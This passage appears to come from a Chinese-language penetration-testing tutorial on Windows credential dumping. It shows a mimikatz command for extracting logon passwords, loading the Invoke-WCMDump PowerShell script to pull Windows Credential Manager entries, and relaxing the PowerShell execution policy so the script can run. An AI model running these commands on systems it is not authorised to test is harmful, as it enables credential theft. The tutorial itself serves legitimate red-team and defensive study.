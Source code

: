 privilege::debugts::logonpasswords# mimikatz.exe "privilege::debug" "ts::logonpasswords"  
### 1.2.5使用 PowerShell 脚本Invoke-WCMDump导出      
  
  
•项目地址：  
https://github.com/peewpw/Invoke-WCMDump  
  
  
Invoke-WCMDump.ps1 这个 PowerShell 脚本可以在 Windows 凭据管理器中枚举 Windows 凭据，然后提取有关每个凭据的可用信息，且无须管理员权限。  
  
  
1.需要更改权限  
  
  
Import-Module .\Invoke-WCMDump.ps1  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtj4ibkwpZnujBicvHGib4pgLjmFO5RwfAPs2ZcLpjGaB7BCLDj5icBXsNkg/640?wx_fmt=png "")  
  
  
  
  
PowerShell默认设置为Restricted，这意味着不允许运行任何脚本，包括本地脚本。为了运行自定义脚本，需要更改执行策略。  
  
  
Restricted：默认值，不允许运行任何脚本。  
  
      
  
  
AllSigned：只允许运行由受信任发布者签署的脚本。  
  
  
RemoteSigned：允许运行本地创建的脚本，远程下载的脚本必须有数字签名。  
  
  
Unrestricted：允许所有脚本运行，但会警告未签名的脚本。  
  
  
Bypass：不阻止或不提示任何内容；适用于构建服务器等非交互式环境。  
  
  
Undefined：移除当前作用域内的执行策略（不会影响其他作用域）。  
  
  
2.更改权限  
  
  
Get-ExecutionPolicy  
  
  
Set-ExecutionPolicy RemoteSigned  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImt3HB8yR1wGREWqEUmsfYmU8wmUicP8oyDrKialpcrqQ26uqJWDiaicAibunA/640?wx_fmt=png "")  
  
  
  
  
3.执行导出命令  
  
  
Import-Module .\Invoke-WCMDump.ps1  
  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtLqZWooBGmLOibJcbJBia53ia7gzkYtS25C1dOkuRAKMLXv8UDaKwibibnTQ/640?wx_fmt=png "")  
  
  